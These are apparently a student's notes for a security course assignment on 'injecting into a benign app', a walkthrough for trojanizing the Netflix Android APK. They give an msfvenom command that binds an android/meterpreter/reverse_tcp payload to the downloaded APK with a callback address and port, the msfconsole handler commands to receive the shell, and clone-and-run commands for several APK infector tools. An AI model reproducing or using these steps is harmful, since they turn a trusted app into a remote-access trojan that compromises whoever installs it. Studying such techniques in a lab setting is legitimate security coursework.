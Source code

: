 http://gauss.ececs.uc.edu/Courses/c653/homework/assgn6.pdf

# Injecting into a benign app

https://apps.evozi.com/apk-downloader/?id=com.netflix.mediaclient


## injecting onto linux

### for installing apktool for decompiling

Linux:

    Download Linux wrapper script (Right click, Save Link As apktool)
    Download apktool-2 (find newest here)
    Rename downloaded jar to apktool.jar
    Move both files (apktool.jar & apktool) to /usr/local/bin (root needed)
    Make sure both files are executable (chmod +x)
    Try running apktool via cli

apparently we can also use something like msfvenom like

### open source tools available

from : https://secnhack.in/multiple-ways-to-embed-a-payload-in-an-original-apk-file/

`msfvenom -x com.netflix.mediaclient_35512_apps.evozi.com.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o netflix.apk`

on console

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run

using apk binder

git clone https://github.com/kinghacker0/Apk-Binder
cd Apk-Binder/
bash apk-binder.sh

git clone https://github.com/ivam3/embed.git
cd embed/
bash set-apktool


git clone https://github.com/PushpenderIndia/apkinfector.git
cd apkinfector/
python3 infector.py

git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
bash setup.sh

git clone https://github.com/M4sc3r4n0/Evil-Droid.git
cd Evil-Droid
chmod +x evil-droid
bash evil-droid










